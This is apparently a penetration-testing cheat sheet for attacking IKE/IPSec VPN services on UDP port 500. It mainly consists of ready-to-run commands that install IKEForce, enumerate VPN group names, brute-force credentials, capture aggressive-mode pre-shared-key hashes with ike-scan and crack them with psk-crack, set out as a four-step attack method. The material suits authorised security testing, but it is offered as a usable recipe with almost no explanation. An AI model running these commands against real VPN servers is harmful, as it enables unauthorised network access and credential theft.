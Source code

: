 ```yaml
---
description: 'IKE is aprt of IPSec protocol, which is part of VPN''s, it uses UDP port 500'
---
```


# 500 - IKE \(IPSEC\)

###  IKEFORCE 

Use IKEForce to enumerate or dictionary attack VPN servers. 

Install: 

```text
pip install pyip 
git clone https://github.com/SpiderLabs/ikeforce.git 
 
```

Perform IKE VPN enumeration with IKEForce: 

`./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic`   
 

Bruteforce IKE VPN using IKEForce: 

`./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1` 

### ike-scan 

```text
ike-scan TARGET-IP 
ike-scan -A TARGET-IP 
ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key
```

 IKE Aggressive Mode PSK Cracking 

1. Identify VPN Servers 
2. Enumerate with IKEForce to obtain the group ID 
3. Use ike-scan to capture the PSK hash from the IKE endpoint 
4. Use psk-crack to crack the hash 

Step 1: Identify IKE Servers \(uses [https://github.com/portcullislabs/udp-proto-scanner](https://github.com/portcullislabs/udp-proto-scanner)\)

`./udp-protocol-scanner.pl -p ike SUBNET/24` 

Step 2: Enumerate group name with IKEForce 

`./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic` 

Step 3: Use ike-scan to capture the PSK hash 

`ike-scan –M –A –n example_group -P hash-file.txt TARGET-IP` 

Step 4: Use psk-crack to crack the PSK hash 

`psk-crack hash-file.txt` 

Some more advanced psk-crack options below: 

```text
pskcrack 
psk-crack -b 5 TARGET-IPkey 
psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key 
psk-crack -d /path/to/dictionary-file TARGET-IP-key 
```

